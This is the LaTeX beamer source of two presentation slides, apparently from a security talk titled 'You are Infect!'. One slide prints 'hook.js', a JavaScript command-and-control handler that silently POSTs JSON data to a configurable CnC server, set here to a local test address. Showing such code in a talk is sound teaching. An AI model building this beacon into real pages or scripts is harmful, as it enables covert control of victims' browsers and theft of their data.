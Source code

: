\documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}
  \frametitle{You are Infect!}
  \begin{center}
    \includegraphics[scale=0.4]{youareinfect}
  \end{center}
\end{frame}
\begin{frame}[fragile]{}
  \frametitle{Javascript XMLHttpRequest}
  \framesubtitle{A little command here and a little control there...}
  \begin{center}
    \begin{tcolorbox}[title=hook.js,colback=black]
    \begin{minipage}{0.5\textwidth}
      \begin{verbatim}
        var config = {                                                                      //CnC server configuration
          server: "127.0.0.1",                                                              //Our test CnC server
          port: 80                                                                          //CnC port
        };
        function cnc(data, callback){                                                       //CnC Handler
	      try{
		    let http = new XMLHttpRequest();
		    http.onreadystatechange = function(){
		      if (this.readyState == 4 && this.status == 200){
				callback(this.responseText);                                //Callback function
				return true;
			  }
			  if (this.readyState == 4 && this.status != 200){
				return false;                                               //Try to fail silently
			  }
		    };
		    http.open('POST', 'http://' + config.server + ':' + config.port, true); //Connect to CnC server
		    http.setRequestHeader('Content-Type', 'application/json');
		    http.send(JSON.stringify(data));                                        //Send the data
		    return true;
	      } catch(error){
		    return false;
	      }
        }
      \end{verbatim}
    \end{minipage}
    \end{tcolorbox}
  \end{center}
\end{frame}
\end{document}
